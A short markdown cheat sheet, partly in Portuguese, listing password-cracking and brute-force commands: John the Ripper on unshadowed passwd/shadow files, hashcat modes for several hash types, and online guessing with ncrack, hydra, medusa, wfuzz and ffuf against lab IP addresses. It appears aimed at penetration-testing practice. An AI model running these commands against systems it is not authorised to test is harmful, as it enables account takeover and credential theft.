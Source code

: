 ## Identificar hash

- https://hashes.com/en/tools/hash_identifier

## John the Ripper 

shadow file
```shell
unshadow passwd shadow > unshadow.db
john unshadow.db
```
## Hashcat

Drupal7
```
hashcat -m 7900 senha.txt /usr/share/wordlists/rockyou.txt
```


SHA512 $6$ shadow file
```
hashcat -m 1800 -a 0 hash.txt rockyou.txt --username
```

MD5 $1$ shadow file
```
hashcat -m 500 -a 0 hash.txt rockyou.txt --username
```

Hashcat MD5 Apache webdav file
```
hashcat -m 1600 -a 0 hash.txt rockyou.txt
```

Hashcat SHA1
```
hashcat -m 100 -a 0 hash.txt rockyou.txt --force
```

 Hashcat Wordpress
```
hashcat -m 400 -a 0 --remove hash.txt rockyou.txt
```
## NCRACK

RDP user with password list
```
ncrack -vv --user offsec -P passwords rdp://10.10.10.10
```

## Hydra

SSH user with password list
```
hydra -l user -P pass.txt -t 10 10.10.10.10 ssh -s 22
```

## Brute Force BASIC:

```shell
wfuzz -c -z file,/usr/share/wordlists/rockyou.txt --hc 401 -d --basic admin:FUZZ http://metasploitable.cg/restrito/
```

## Scan de arquivos URL via FUZZ:

```shell
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.90.76/phpmyadmin/FUZZ -mc 200,301,302 .php,.txt,.html -fs 3025
```
## Bruteforce com FUZZ

```shell
wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt --hs incorretos -d "usuario=admin&senha=FUZZ" 'http://192.168.90.197:8081/admin/admin_panel/conecta.php'
```

## Medusa

FTP user with password list
```
medusa -h 10.10.10.10 -u user -P passwords.txt -M ftp
```
